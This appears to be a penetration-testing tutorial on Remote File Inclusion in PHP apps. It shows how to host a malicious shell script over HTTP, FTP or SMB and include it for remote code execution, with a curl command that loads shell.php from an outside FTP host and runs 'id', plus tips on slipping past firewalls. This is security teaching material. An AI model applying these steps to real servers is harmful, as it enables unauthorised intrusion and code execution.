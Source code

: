 ## Remote File Inclusion (RFI)
in some cases, we may also be able to include remote files "Remote File Inclusion (RFI)", if the vulnerable function allows the inclusion of remote URLs. This allows two main benefits:

- Enumerating local-only ports and web applications (i.e. SSRF)
- Gaining remote code execution by including a malicious script that we host

### Verify RFI
In most languages, including remote URLs is considered as a dangerous practice as it may allow for such vulnerabilities. This is why remote URL inclusion is usually disabled by default. For example, any remote URL inclusion in PHP would require the allow_url_include setting to be enabled. We can check whether this setting is enabled through LFI.

However, this may not always be reliable, as even if this setting is enabled, the vulnerable function may not allow remote URL inclusion to begin with. So, a more reliable way to determine whether an LFI vulnerability is also vulnerable to RFI is to try and include a URL, and see if we can get its content. At first, we should always start by trying to include a local URL to ensure our attempt does not get blocked by a firewall or other security measures. So, let's use (http://127.0.0.1:80/index.php) as our input string and see if it gets included:

### Remote Code Execution with RFI
The first step in gaining remote code execution is creating a malicious script in the language of the web application, PHP in this case. We can use a custom web shell we download from the internet, use a reverse shell script, or write our own basic web shell.

Now, all we need to do is host this script and include it through the RFI vulnerability. It is a good idea to listen on a common HTTP port like 80 or 443, as these ports may be whitelisted in case the vulnerable web application has a firewall preventing outgoing connections. Furthermore, we may host the script through an FTP service or an SMB service, as we will see next.

#### HTTP
```bash
$ sudo python3 -m http.server <LISTENING_PORT>
```

#### FTP
```bash
$ sudo python -m pyftpdlib -p 21
```

As we can see, this worked very similarly to our http attack, and the command was executed. By default, PHP tries to authenticate as an anonymous user. If the server requires valid authentication, then the credentials can be specified in the URL, as follows:
```bash
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

#### SMB
If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the allow_url_include setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion. This is because Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.
```bash
$ impacket-smbserver -smb2support share $(pwd)
```
